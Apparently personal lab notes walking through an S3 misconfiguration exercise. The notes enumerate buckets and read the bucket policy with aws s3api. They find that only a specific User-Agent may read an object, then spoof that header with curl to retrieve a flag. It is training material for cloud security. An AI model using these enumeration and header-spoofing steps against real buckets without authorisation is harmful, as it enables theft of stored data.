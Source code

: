 Bucket policies are used to restrict/allow access to buckets and have to be crafted very carefully. A misconfigured bucket policy can allow attackers to steal sensitive data and use the S3 bucket in other attacks.

In this lab, the policies allow anonymous users to read an object by sending a specially crafted request. There exists a misconfiguration in the bucket policy which can be leveraged to identify how the request is to be sent and to read the object.

==================================================================

List s3 buckets --> `aws s3api list-buckets`
Check bucket policy --> `aws s3api get-bucket-policy --bucket s3-special-request-287538029051 --output text | python -m json.tool`
![[Pasted image 20210825204001.png]]

Only a specific user agent is allowed to access the object
Check bucket objects --> `aws s3api list-objects --bucket s3-special-request-287538029051`
Try to access s3 using curl --> `curl http://s3-special-request-287538029051.s3.amazonaws.com`
![[Pasted image 20210825204335.png]]

Use the User-Agent retrieved from bucket policy
`curl -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (XHTML, like Gecko) Chrome/*" http://s3-special-request-287538029051.s3.amazonaws.com/flag`
Flag retrieved!

